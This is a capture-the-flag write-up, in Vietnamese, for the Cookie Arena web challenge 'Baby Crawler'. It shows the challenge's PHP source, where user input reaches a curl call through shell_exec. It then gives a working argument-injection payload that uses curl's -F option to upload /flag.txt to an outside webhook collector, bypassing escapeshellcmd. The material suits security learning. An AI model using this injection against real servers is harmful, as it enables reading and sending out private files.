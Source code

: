 # Baby Crawler

Source: Cookie Arena
Tools: Curl
Fields: Web

- Giao diện
    
    ![image.png](image.png)
    
- src
    
    ```php
    <?php
    $title = "Baby Crawler";
    //----------------------------------
    function parse_html($cache_file)
    {
        $data = array(
            'title' => null,
            'description' => null,
        );
        $fp = file_get_contents($cache_file);
        if (!$fp)
            return $data;
    
        $res = preg_match("/<title>(.*)<\/title>/siU", $fp, $title_matches);
        if (!$res)
            return $data['title'] = null;
    
        $res = preg_match("/<meta name=\"description\" content=\"(.*)\"\/>/siU", $fp, $description_matches);
        if (!$res)
            return $data['description'] = null;
    
        $data = array(
            'title' => trim(preg_replace('/\s+/', ' ', $title_matches[1])),
            'description' => trim(preg_replace('/\s+/', ' ', $description_matches[1])),
        );
        return $data;
    }
    //----------------------------------
    if (isset($_POST['url'])) {
        $url = $_POST['url'];
        if (strpos($url, 'http') !== 0) {
            die('Only HTTP or HTTPS !');
        } else {
            $result = shell_exec('curl ' . escapeshellcmd($url));
            $cache_file = './cache/' . md5($url);
            file_put_contents($cache_file, $result);
            $data = parse_html($cache_file);
        }
    }
    
    if (isset($_GET['debug'])) {
        highlight_file(__FILE__);
        die();
    }
    
    ?>
    <!DOCTYPE html>
    <html lang="en">
    
    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <meta property="og:title" content="<?php echo $title; ?>">
        <meta property="og:description" content="<?php echo $title; ?>">
        <meta property="og:image" content="/static/main.png">
        <meta content='summary_large_image' property='twitter:card'>
        <meta property="og:url" content="https://cookiearena.org">
    
        <title><?php echo $title; ?></title>
    
        <link rel="icon" href="/static/favicon.ico" type="image/x-icon" />
        <link rel="shortcut icon" href="/static/favicon.ico" type="image/x-icon" />
        <link rel="stylesheet" type="text/css" href="/static/index.css" />
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css"
            integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
    </head>
    
    <body>
        <div class="bg-top"></div>
        <div class="wrapper h-100">
            <div>
                <div class="container text-center mt-5">
                    <img height="76px" class="img-responsive ctf_logo" src="/static/cookie.png" height="25" alt="Cookie Arena">
                </div>
            </div>
            <div style="margin-top: 7rem;" class="container">
                <fieldset>
                    <legend><?php echo $title; ?></legend>
                    <div>
                        <?php echo isset($cache_file) ? "<p>Cached File: <a href='/{$cache_file}'>{$cache_file}</a></p>" : "" ?>
                        <?php echo !empty($data) ? "<p>Article: {$data['title']}" : "" ?>
                        <?php echo !empty($data) ? "<p>Description: {$data['description']}" : "" ?>
                        <!-- /?debug -->
                    </div>
                    <div>
                        <form action="" method="POST">
                            <input type="text" class="form-control" name="url" value="https://vnexpress.net/viet-nam-xuat-khau-sang-my-latinh-mot-ty-usd-moi-thang-4541275.html">
                            <br>
                            <input type="submit" name="submit" value="Crawl" class="btn btn-cookie uppercase">
                        </form>
                    </div>
            </div>
            </fieldset>
    
        </div>
        <footer class="footer fixed-bottom mb-5">
            <div class="container text-center">
                <a href="https://www.facebook.com/cookie.han.hoan" target="_blank" rel="norel noopener"><img width="24px"
                        height="24px" src="/static/facebook.png"></a>
                <a class="ml-2" href="https://discord.gg/cookiehanhoan" target="_blank" rel="norel noopener"><img width="24px"
                        height="24px" src="/static/discord.png"></a>
            </div>
            <div class="container text-center mt-1">
                <a href="https://battle.cookiearena.org" class="text-secondary" target="_blank" rel="norel noopener">
                    <small class="text-muted">Powered by Cookie Arena</small>
                </a>
            </div>
        </footer>
        </div>
    </body>
    
    </html>
    ```
    
- Liên quan đến URL —> SSRF —> tuy nhiên sau khi thử một vài payload thì có vẻ ko được ổn lắm
- theo hint thì vào /?debug để xem source code
- Sau khi thấy đoạn này lập tức nghĩ đến Command Injection, nhưng hàm escapeshellcmd($url) làm tôi vỡ mộng vì nó chặn hầu hết các kí tự thường dùng trong CI như: &#;`|*?~<>^()[]{}$\ , \x0A và \xFF

```php
$result = shell_exec('curl '. escapeshellcmd($url));
     $cache_file = './cache/'.md5($url);
     file_put_contents($cache_file, $result);
     $data = parse_html($cache_file); 
```

—> tới đây dường như bế tắc, nên tôi thử tìm kiếm hướng đi khác từ các yếu tố xung quanh. Sau khi lân la trên mạng tôi bt đc rằng lệnh curl có thể gửi file thông qua option -F. Đây là cú pháp:

```php
curl -F "tên_trường_file=@đường_dẫn_tệp" URL
```

—> Thử payload, sử dụng webhook server để hứng request

```php
-F file=@/flag.txt https://webhook.site/b1a08dcc-9679-46d0-89c2-b2c8121bd50c
```

—> Tuy nhiên web nó chửi tôi rằng “Only HTTP or HTTPS !” 👺

—> vậy nên ta sẽ sửa nhẹ cái payload thành:

```php
http://103.97.125.53:30767 32 -F file=@/flag.txt https://webhook.site/b1a08dcc-9679-46d0-89c2-b2c8121bd50c
```

- Vậy là trên webhook ta sẽ nhận được 1 file flag.txt

![image.png](image%201.png)